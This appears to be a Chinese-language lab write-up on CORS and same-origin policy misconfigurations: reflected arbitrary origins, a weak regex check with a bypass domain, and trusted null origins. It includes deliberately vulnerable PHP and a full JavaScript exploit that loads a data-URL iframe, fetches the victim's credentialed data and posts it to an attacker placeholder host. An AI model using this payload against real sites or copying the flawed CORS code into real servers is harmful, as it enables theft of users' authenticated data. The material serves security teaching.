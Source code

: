 # CORS & SOP

跨源资源共享，也称为 CORS，是一种允许 Web 应用程序安全地从不同域请求资源的机制。这对于网络安全至关重要，因为它可以防止一个页面上的恶意脚本通过浏览器访问另一个网页上的敏感数据。

同源策略，也称为SOP，是一种限制网页与不同来源的资源交互的安全措施。源由方案（协议）、主机名（域）和 URL 端口定义。

简单来讲就是通过CORS控制SOP进行跨域资源访问

跨源资源共享 (CORS) 是一种由 HTTP 标头定义的机制，允许服务器指定如何从不同源请求资源。虽然同源策略 (SOP) 默认情况下限制网页只能向同一域发出请求，但 CORS 使服务器能够声明此策略的例外情况，从而允许网页在受控条件下从其他域请求资源。

CORS主要通过服务器返回的http一系列响应标头来告诉浏览器该如何做，这里我们主要关注Access-Control-Allow-Origin标头

## 任意origin

```php
if (isset($_SERVER['HTTP_ORIGIN'])){
    header("Access-Control-Allow-Origin: ".$_SERVER['HTTP_ORIGIN']."");
    header('Access-Control-Allow-Credentials: true');
}
```

这段服务端php代码存在CORS缺陷，我们可以通过http请求头Origin来控制ACAO

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/60c1ad1a73824643982784eabd31b789.png)

## 不安全的正则表达式

```php
if (isset($_SERVER['HTTP_ORIGIN']) && preg_match('#corssop.thm#', $_SERVER['HTTP_ORIGIN'])) {
    header("Access-Control-Allow-Origin: ".$_SERVER['HTTP_ORIGIN']."");
    header('Access-Control-Allow-Credentials: true');
}
```

绕过方式也相当轻松corssop.thm.evilcors.thm

## Null origin

null可能会出现在

本地文件和开发：当开发人员使用 file:/// URL 在本地测试 Web 应用程序时（例如，直接在浏览器中打开 HTML 文件而不需要服务器），浏览器通常将 origin 设置为“null”。在这种情况下，开发人员可能会暂时允许 CORS 策略中的“空”源以方便测试。

sandboxed  iframe：如果 iframe 的内容来自不同的域，则使用沙盒 iframe（带有 sandbox 属性）的 Web 应用程序可能会遇到“null”来源。 “空”源是高度受限环境中的一种安全措施。

### XSS + CORS

通过xss插入iframe然后加载恶意js代码，服务器返回null值的ACAO响应头，从而允许当前域访问其他域资源

```js
<div style="margin: 10px 20px 20px; word-wrap: break-word; text-align: center;">
    <iframe id="exploitFrame" style="display:none;"></iframe>
    <textarea id="load" style="width: 1183px; height: 305px;"></textarea>
  </div>

  <script>
    // JavaScript code for the exploit, adapted for inclusion in a data URL
    var exploitCode = `
      <script>
        function exploit() {
          var xhttp = new XMLHttpRequest();
          xhttp.open("GET", "http://corssop.thm/null.php", true);
          xhttp.withCredentials = true;
          xhttp.onreadystatechange = function() {
            if (this.readyState == 4 && this.status == 200) {
              // Assuming you want to exfiltrate data to a controlled server
              var exfiltrate = function(data) {
                var xhr = new XMLHttpRequest();
                xhr.open("POST", "http://EXFILTRATOR_IP/receiver.php", true);
                xhr.withCredentials = true;
                var body = data;
                var aBody = new Uint8Array(body.length);
                for (var i = 0; i < aBody.length; i++)
                  aBody[i] = body.charCodeAt(i);
                xhr.send(new Blob([aBody]));
              };
              exfiltrate(this.responseText);
            }
          };
          xhttp.send();
        }
        exploit();
      <\/script>
    `;

    // Encode the exploit code for use in a data URL
    var encodedExploit = btoa(exploitCode);

    // Set the iframe's src to the data URL containing the exploit
    document.getElementById('exploitFrame').src = 'data:text/html;base64,' + encodedExploit;
  </script>
```

这段插入易受攻击的站点上，受害者访问后，将向目标站点发起http请求，服务器将接受null origin并返回null的ACAO标头，此时SOP将允许在当前域对其他任意域进行资源访问，第二个xhr将数据发送到攻击者服务器

由于请求源自 iframe，因此 origin 为 null
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/0beb979320354fda979d7007bf04c5f0.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/3ce3702bddb8415796c97cb46af785a9.png)
